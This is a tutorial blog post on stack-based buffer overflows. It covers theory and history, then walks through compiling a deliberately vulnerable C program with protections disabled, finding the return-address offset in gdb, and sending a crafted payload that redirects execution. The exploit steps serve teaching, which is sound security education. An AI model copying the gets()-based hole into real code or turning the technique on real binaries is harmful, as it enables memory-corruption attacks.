







Introduction
What is a Buffer Overflow vulnerability? How can we achieve code execution by exploiting a Buffer Overflow? Today, we'll delve into various aspects related to Buffer Overflow vulnerabilities.
This article will be divided into two sections: theoretical and practical. Firstly, we'll discuss Buffer Overflow basics, covering what a Buffer Overflow vulnerability is, how it can arise, and more. Then, we'll delve into learning how to exploit common buffer overflow vulnerabilities using Shellcode, among other techniques.
Before diving into this article, I recommend reading my Binary Exploitation Basics article, as we'll be discussing concepts explained there.
What is a Buffer Overflow?
A buffer overflow vulnerability occurs when a program or process attempts to store more data in a buffer (temporary storage area) than it was designed to handle. Imagine you have a glass of water, and it has a limited capacity, let's say it can hold up to 10 ounces of water. Now, let's pretend you have a pitcher of water and you want to pour it into the glass. If you pour just the right amount of water, say 8 ounces, everything is fine, and the glass holds the water without any spillage. However, if you try to pour more than the glass can hold, say 12 ounces, the excess water overflows, spilling onto the table.
Similarly, in computer programming, if a program receives more data than it expects and doesn't have sufficient safeguards in place, this extra data can overflow beyond the allocated memory space for the buffer. As a result, it can overwrite adjacent memory locations, leading to unexpected behavior and potentially exploitable security vulnerabilities.
In essence, a buffer overflow vulnerability arises when a program fails to properly validate the size of input data it receives, allowing an attacker to send more data than the program can handle, leading to memory corruption and potential security breaches. This can be exploited by attackers to gain unauthorized access, execute malicious code, or disrupt the normal operation of the program or system.
elswix@ubuntu$ ./program
Please, enter your username (no more than 20 characters): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault (core dumped) ./program
elswix@ubuntu$
History
Buffer overflow vulnerabilities were first identified in the 1970s, but they gained widespread attention in the 1980s and 1990s as hackers began to exploit them to gain unauthorized access to systems.
One of the earliest and most notorious examples of a buffer overflow exploit was the Morris Worm in 1988. It exploited vulnerabilities in the Unix sendmail, finger, and rsh/rexec utilities to spread rapidly across the internet, causing widespread disruption.
In 1995, Thomas Lopatic independently rediscovered the buffer overflow vulnerability and shared his findings on the Bugtraq security mailing list. A year later, in 1996, Elias Levy (also known as Aleph One) published a paper titled "Smashing the Stack for Fun and Profit" in Phrack magazine. This paper provided a step-by-step introduction to exploiting stack-based buffer overflow vulnerabilities.
In response to the growing threat posed by buffer overflow vulnerabilities, researchers and software developers began to develop mitigations such as stack canaries, address space layout randomization (ASLR), and non-executable stack protections.
Despite the development of mitigations, buffer overflow vulnerabilities continue to be exploited by attackers. Notable examples include the Code Red and Slammer worms in the early 2000s, which targeted vulnerabilities in Microsoft IIS and SQL Server, respectively.
In 2003, buffer overflow vulnerabilities in licensed Xbox games were exploited to enable the execution of unlicensed software, including homebrew games, on the console without requiring hardware modifications, such as modchips. A similar approach was used in the PS2 Independence Exploit to achieve the same result for the PlayStation 2. Additionally, the Twilight hack utilized a buffer overflow in The Legend of Zelda: Twilight Princess to achieve a similar outcome on the Wii console.
Research into buffer overflow vulnerabilities and mitigations remains active, with new techniques and defenses continually being developed to address this persistent threat.
How do Buffer Overflow Vulnerabilities arise?
Buffer overflow vulnerabilities arise due to a combination of factors related to how programs handle memory allocation and data input.
Commonly, buffer overflow vulnerabilities occur for the following reasons:
Insufficient Input Validation: Programs often expect input data from users or external sources. If they fail to properly validate the size and format of this input, it can lead to buffer overflow vulnerabilities. Without adequate checks, attackers can provide maliciously crafted input that exceeds the buffer's capacity, triggering an overflow.
Fixed-size Buffers: Many programming languages, especially older ones like C and C++, use fixed-size buffers to store data. If the input data exceeds the allocated size of these buffers, it can overwrite adjacent memory locations, leading to buffer overflows.
Unsafe String Handling Functions: Certain string manipulation functions (e.g., strcpy, strcat) do not perform bounds checking. If used improperly, these functions can easily lead to buffer overflows if the size of the input data is not properly validated.
Pointer Arithmetic Errors: In languages like C and C++, manual memory management and pointer arithmetic can introduce vulnerabilities if not handled carefully. Improper manipulation of pointers can result in writing data outside the intended memory boundaries of a buffer.
Unsafe C Functions
C and C++ programs are susceptible vulnerable to buffer overflows due to manual memory management, lack of bounds checking, pointer arithmetic, and weak type checking. In contrast, languages like Java, C#, and Python are less susceptible because they use automatic memory management, include built-in bounds checking, and enforce strong typing.
Common unsafe C functions:
strcpy(): This function is used to copy a string from one location to another. However, it does not check the length of the source string, leading to buffer overflows if the destination buffer is not large enough to accommodate the entire string.
In the BUGS section, there is an explanation of this:
If the destination string of a strcpy() is not large enough, then anything might happen. Overflowing fixed-length string
buffers is a favorite cracker technique for taking complete control of the machine. Any time a program reads or copies data
into a buffer, the program first needs to check that there's enough space. This may be unnecessary if you can show that
overflow is impossible, but be careful: programs can get changed over time, in ways that may make the im‐possible possible.
gets(): This function reads a line of input from stdin and stores it in a buffer. However, it does not perform any bounds checking, allowing attackers to overflow the buffer with malicious input.
In the BUGS section, there is also an explanation of this:
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read,
and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has
been used to break computer security. Use fgets() instead.
The compiler warns you when using these functions in a program:
elswix@ubuntu$ gcc program.c -o program
program.c: In function ‘vulnFunction’:
program.c:10:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
10 | gets(username);
| ^~~~
| fgets
/usr/bin/ld: /tmp/cczFBopT.o: in function `vulnFunction':
program.c:(.text+0x3c): warning: the `gets' function is dangerous and should not be used.
elswix@ubuntu$
Even functions that are not directly vulnerable could lead to buffer overflow due to improper usage. For instance, the fgets() function is commonly used to read a line of input from the standard input (stdin) and store it in a buffer. Unlike the vulnerable functions we mentioned earlier (e.g., gets()), fgets() allows you to specify the maximum number of characters to read, which helps mitigate buffer overflow vulnerabilities.
For example, if you use fgets(buffer, sizeof(buffer), stdin), where buffer is the destination buffer and sizeof(buffer) specifies the maximum number of characters to read, you can ensure that the input does not exceed the size of the buffer, thus preventing buffer overflows.
However, problems can arise if the specified length exceeds the size of the destination variable. For instance, consider the following code snippet:
char buffer[10];
fgets(buffer, 20, stdin);
In this example, we intended to read up to 20 characters from stdin into the buffer array, which has a capacity of only 10 characters. This results in a buffer overflow because fgets() reads more characters than the buffer can hold, leading to memory corruption.
The same issue may occur when using strncpy(). It functions similarly to strcpy(), but it allows you to specify the maximum number of characters to copy. Therefore, entering a value greater than the capacity of the destination variable can lead to a buffer overflow.
How do attackers exploit Buffer Overflow Vulnerabilities?
Attackers exploit buffer overflow vulnerabilities by sending specially crafted input to a vulnerable program, causing it to store more data than it can handle. This overflow corrupts adjacent memory, allowing attackers to hijack the program's control flow. By strategically overwriting memory addresses, they can redirect execution to execute their own malicious code, typically shellcode. This code grants attackers unauthorized access or control over the system, enabling them to execute arbitrary commands, steal data, or escalate privileges.
In stack-based buffer overflows, the attacker aims to overwrite the return address to control the instruction pointer and consequently alter the program flow. If you've read my article on Binary Exploitation Basics, you may already know that when a function is called, the memory address of the next instruction after the call instruction is pushed onto the stack. This allows the program to know where to return.
The attacker exploits this value on the stack by overwriting it with a malicious memory address. Consequently, when the function returns, the program flow is redirected to an unexpected function or program section.
Let's visualize this concept with a graphic:

This is the stack. In this image, we can highlight the user input, the saved EBP value (saved base pointer), and the saved EIP value (the return address). In the user input, there is a string with the value elswix.
When a buffer overflow occurs, the stack may look like this:

As you can see, the saved EBP and EIP values were overwritten. Therefore, when the function returns, the ret instruction will attempt to pop the saved EIP (return address) from the stack into the EIP register. However, since it has been overwritten with the string AAAA, the program will crash. Remember that the ret instruction is responsible for transferring control back to the calling function by popping the return address from the stack into the EIP register.
When the attacker observes that the program has crashed due to a buffer overflow, they can proceed to analyze the crash to determine the offset needed to overwrite the return address.
The offset refers to the distance between the beginning of the buffer and the location of the return address on the stack. By determining this offset, the attacker can precisely control where their malicious payload, typically shellcode, will be placed in memory.
To find the offset, the attacker often employs techniques such as sending input strings of varying lengths and observing how the program behaves. When the input length exceeds the buffer size, it overflows and starts corrupting adjacent memory locations, eventually overwriting the return address. By identifying the point at which the return address is overwritten and comparing it to the length of the input string, the attacker can calculate the offset.

Once the attacker has found the offset, they take control of the return pointer, thereby controlling the program flow by placing memory addresses to redirect the program to malicious instructions.

Exploitation
Let's start with Buffer Overflow exploitation. In this case, we'll exploit a stack-based buffer overflow, as it's the simplest and most common scenario. Firstly, we'll exploit a simple program to redirect the program flow to another function. This function is never called, so it's inaccessible without exploiting the buffer overflow vulnerability.
C Program:
#include <stdio.h>
#include <stdlib.h>
void targetFunction(){
printf("Congratulations, you've successfully exploited your first buffer overflow to redirect program flow!");
exit(1);
}
void vulnFunction(){
char username[20];
printf("Please, enter your username: ");
gets(username);
printf("Hello, %s", username);
}
int main(){
vulnFunction();
return 0;
}
As you can see, this program is vulnerable to buffer overflow due to the use of the gets() function. To solve this challenge, we need to redirect the program execution flow to the targetFunction.
To compile this program for 32-bit architecture, we'll use gcc with the -m32 parameter. Additionally, we'll use the -fno-stack-protector flag to disable the Stack Canary protection and the -no-pie parameter to disable the PIE protection:
elswix@ubuntu$ gcc program.c -o program -m32 -fno-stack-protector -no-pie
Don't worry about the warnings; they're notifying you of the danger of using gets().
We're using 32-bit architecture for simplicity. In upcoming articles, we'll explore how to exploit programs running on 64-bit architecture.
When running the program, it prompts for a username and then prints the entered string:
elswix@ubuntu$ /program
Please, enter your username: elswix
Hello, elswix
elswix@ubuntu$
Let's see what happens if we enter a large number of characters to trigger a buffer overflow:
elswix@ubuntu$ ./program
Please, enter your username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault (core dumped) ./program
elswix@ubuntu$
As you can see, it displayed the zsh: segmentation fault (core dumped) message. This indicates that the program flow was redirected to an inaccessible memory address, confirming that we've successfully overwritten the return address.
Let's analyze this binary with gdb (GNU Debugger) to perform a thorough examination of the program's behavior:
elswix@ubuntu$ gdb -q program
GEF for linux ready, type `gef' to start, `gef config' to configure
88 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.10
Reading symbols from program...
(No debugging symbols found in program)
gef$
Let's execute the program and input a long string to trigger a buffer overflow:
gef$ r
Starting program: /home/elswix/Desktop/elswix/Local/bufferoverflow-article/program
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please, enter your username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
...[snip]...

As you can see, the Instruction Pointer (EIP) has been successfully overwritten.
Once we've confirmed that we can trigger a buffer overflow, the next step is to find the offset needed to overwrite the return address on the stack. We can achieve this by creating a string with a repeating pattern. When we enter this string and the program crashes, we can examine the memory to determine where the return address was overwritten.
If you use the gef extension of GDB, you can use the pattern create command to generate a pattern string:
gef$ pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef1'
gef$
Now, let's copy that string and enter it as the username:
gef$ r
Please, enter your username: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
...[snip]...
gef$

As you can see, the instruction pointer was overwritten with the string iaaa. To find the return address offset, we can use the pattern offset command and specify the EIP register:
gef$ pattern offset $eip
[+] Searching for '69616161'/'61616169' with period=4
[+] Found at offset 32 (little-endian search) likely
gef$
This indicates that we need to write 32 characters before overwriting the instruction pointer.
Let's put this into practice by creating our custom string. We'll print 32 "A" characters followed by 4 "B" characters. If everything works as expected, the EIP should hold the string BBBB.
elswix@ubuntu$ python3 -c 'print("A"*32 + "B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Let's execute the program again:
gef$ r
Please, enter your username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
gef$
As observed, it attempted to return to the address 0x42424242, which is the hexadecimal representation of the string BBBB:

We need to redirect program execution to the targetFunction to solve this challenge. Since we disabled the PIE protection when compiling the program, the addresses within the binary won't change every time you execute the program. So, we simply need to find the address of the targetFunction and place it in the return address.
To obtain the targetFunction address, we can use gdb:
gef$ x targetFunction
0x8049196 <targetFunction>: 0x53e58955
gef$
The targetFunction is located at address 0x8049196. As we've observed, we need to enter 32 characters before modifying the return address. Therefore, after those 32 characters, we need to place the address of the targetFunction.
Little-endian is a byte-ordering format. In little-endian format, the least significant byte (LSB) is stored first, followed by the more significant bytes in increasing order of significance. This means that the byte with the lowest memory address contains the least significant bits of the data, while the byte with the highest memory address contains the most significant bits.
The address 0x8049196 will be represented in little-endian format as \x96\x91\x04\x08.
We'll use Python to craft our malicious input string:
elswix@ubuntu$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*32 + b"\x96\x91\x04\x08")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
You may be wondering why I'm using sys.stdout.buffer.write instead of print. The main reason is that we're dealing with bytes, and the print function will print the bytes string as a normal string enclosed in b'', without displaying the actual byte values:
elswix@ubuntu$ python3 -c 'print(b"A"*32 + b"\x96\x91\x04\x08")'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x91\x04\x08'
Of course, this won't work because the string \x96\x91\x04\x08 is not being interpreted as hexadecimal bytes. Instead of writing those 4 bytes to the return address, we're writing the string "\x96".
Additionally, the print function adds a line feed (\n) character after the string, which may cause problems.
This issue with the print function only occurs in Python 3. In Python 2, there are no problems with printing hexadecimal and non-printable characters:
elswix@ubuntu$ python2 -c 'print("A"*32 + "\x96\x91\x04\x08")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Although it also adds a line feed character at the end of the string, it doesn't affect the outcome depending on the context.
elswix@ubuntu$ python2 -c 'print("A"*32 + "\x96\x91\x04\x08")' | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA
00000020: 9691 0408 0a .....
elswix@ubuntu$
Anyway, to avoid dealing with these problems, we can simply use sys.stdout.buffer.write, which is perfect for these cases.
elswix@ubuntu$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*32 + b"\x96\x91\x04\x08")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
Finally, let's execute this program and pass the Python output as input:
elswix@ubuntu$ ./program <<< "$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*32 + b"\x96\x91\x04\x08")')"
Please, enter your username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�Congratulations, you've successfully exploited your first buffer overflow to redirect program flow!
It worked! We've successfully redirected the program flow and executed the targetFunction.
Conclusion
In conclusion, buffer overflow vulnerabilities are a big risk. When creating your own programs, it's crucial to pay attention to security. This means making sure your code properly checks and validates input, and follows secure coding practices. By taking these steps, you can reduce the chances of buffer overflow exploits and keep your software safer.
Understanding buffer overflow vulnerabilities can be tough—I struggled with it too. But with perseverance and research, it starts to make sense. In this article, we covered what a buffer overflow vulnerability is and how to exploit a simple case. While you're unlikely to encounter this exact scenario in real-world situations, it's a good starting point for learning. In future articles, we'll delve into more advanced techniques for achieving code execution and privilege escalation. Stay tuned for deeper insights into cybersecurity!
Personally, I have a soft spot for memory corruption vulnerabilities, and this one is among my favorites. I hope you've gained some new insights from this article. If you enjoyed it, feel free to follow me on social media to support my work, or just drop me a message to let me know your thoughts. Your feedback is always appreciated!
Happy Hacking!
Joaquín (AKA elswix).
References
https://en.wikipedia.org/wiki/Buffer_overflow
https://ctf101.org/binary-exploitation/buffer-overflow/
https://en.wikipedia.org/wiki/Stack_buffer_overflow
https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
History references
https://en.wikipedia.org/wiki/Buffer_overflow#History
ChatGPT